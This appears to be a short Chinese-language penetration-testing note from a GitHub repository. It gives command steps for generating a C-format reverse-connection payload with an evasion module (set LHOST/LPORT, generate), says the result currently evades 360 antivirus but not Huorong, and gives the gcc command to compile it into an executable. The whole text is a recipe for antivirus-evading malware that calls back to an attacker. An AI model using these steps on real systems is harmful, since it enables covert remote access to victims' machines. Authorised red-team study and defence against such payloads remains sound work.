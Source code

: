 	>use 1选择evasion模块
	>list查看可用payload
	>use 7 选择c格式的payload
	>set LHOST/LPORT设置回连IP和端口
	>generate生成
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/77.png)

	直接生成的exe可能会被查杀，目前可过360，不能过火绒
	使用minGW-w64编译C文件
	>gcc -o vel.exe veil.c -l ws2_32